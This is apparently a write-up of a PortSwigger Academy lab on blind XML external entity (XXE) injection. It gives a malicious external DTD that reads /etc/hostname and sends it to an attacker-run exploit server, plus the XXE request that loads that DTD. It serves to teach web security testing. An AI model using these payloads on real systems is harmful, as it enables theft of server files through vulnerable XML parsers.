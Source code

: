 
# Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/xxe/blind



![img](images/Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/1.png)

---------------------------------------------


First we store the malicious DTD in the exploit server:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0ad2004004843a168182a2f5018800b6.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```



![img](images/Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/2.png)


Then we send the XXE payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad2004004843a168182a2f5018800b6.exploit-server.net/malicious.dtd"> %xxe;]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```



![img](images/Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/3.png)


We get an error but the hostname is received:



![img](images/Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/4.png)